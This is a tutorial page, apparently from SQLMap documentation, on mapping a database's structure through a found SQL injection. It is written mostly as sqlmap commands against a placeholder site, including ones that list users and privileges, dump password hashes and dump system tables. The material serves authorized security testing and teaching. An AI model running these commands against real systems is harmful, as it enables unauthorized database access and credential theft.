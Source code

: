 ```yaml
---
title: Database Structure Enumeration
description: Learn how to enumerate database structure using SQLMap
---
```


SQLMap provides powerful capabilities for enumerating database structure once you've identified a SQL injection vulnerability. This guide covers how to discover and map databases, tables, columns, and schema information.

## Basic Database Enumeration

### Listing Available Databases

To list all available databases on the target server:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --dbs
```

This command will enumerate all databases the current user has access to.

### Listing Tables in a Database

Once you've identified a database of interest, you can list all its tables:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D database_name --tables
```

Replace `database_name` with the name of the database you want to explore.

### Listing Columns in a Table

To enumerate columns in a specific table:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D database_name -T table_name --columns
```

This provides the column names and their data types, which is crucial for targeted data extraction.

## Advanced Structure Enumeration

### Database Schema Information

To get comprehensive schema information:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --schema
```

This command retrieves the entire database schema, including all databases, tables, and columns.

### Database Version and User Information

Gather information about the database version and current user:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --banner --current-user --current-db
```

This helps understand the database environment and privileges.

### Database Users and Privileges

Enumerate database users and their privileges:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --users --privileges
```

For MySQL databases, you can also get password hashes:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --passwords
```

## Database-Specific Techniques

### MySQL Structure Enumeration

MySQL stores schema information in the `information_schema` database:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D information_schema --tables
```

To get table statistics:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D information_schema -T TABLES --dump
```

### Microsoft SQL Server Structure Enumeration

For MSSQL, system catalogs provide schema information:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --sql-query="SELECT name FROM master..sysdatabases"
```

### Oracle Database Structure Enumeration

Oracle stores schema information in data dictionary views:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --sql-query="SELECT owner, table_name FROM all_tables"
```

## Optimization Techniques

### Targeted Enumeration

Instead of enumerating everything, target specific databases or tables:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --dbs --exclude-sysdbs
```

This skips system databases, focusing only on user-created databases.

### Using Regular Expressions

Filter tables or columns using regular expressions:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D database_name --tables --regexp="user|admin"
```

This returns only tables with "user" or "admin" in their names.

### Batch Processing

For faster enumeration, use batch mode:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --batch --dbs
```

This automatically selects default options without prompting.

## Visualization and Documentation

After enumerating the database structure, document your findings:

1. Create a database schema diagram
2. Document table relationships
3. Identify sensitive tables and columns
4. Map data flows between tables

This documentation helps in planning the next steps of your security assessment.

## Best Practices

1. **Start broad, then narrow down**: Begin with database enumeration, then focus on interesting tables
2. **Look for naming patterns**: Tables named "admin", "user", "password", etc. often contain valuable information
3. **Understand table relationships**: Foreign keys reveal how data is connected
4. **Document everything**: Keep detailed notes of the database structure
5. **Be mindful of database load**: Excessive enumeration can impact database performance

## Next Steps

After mapping the database structure, you can:

- [Extract specific data](/docs/sqlmap/database-enumeration/data-extraction) from tables of interest
- Explore [file system access](/docs/sqlmap/database-enumeration/file-system-access) capabilities
- Implement [advanced techniques](/docs/sqlmap/advanced-techniques) for deeper exploitation

Remember to always operate within the scope of your authorized security assessment.
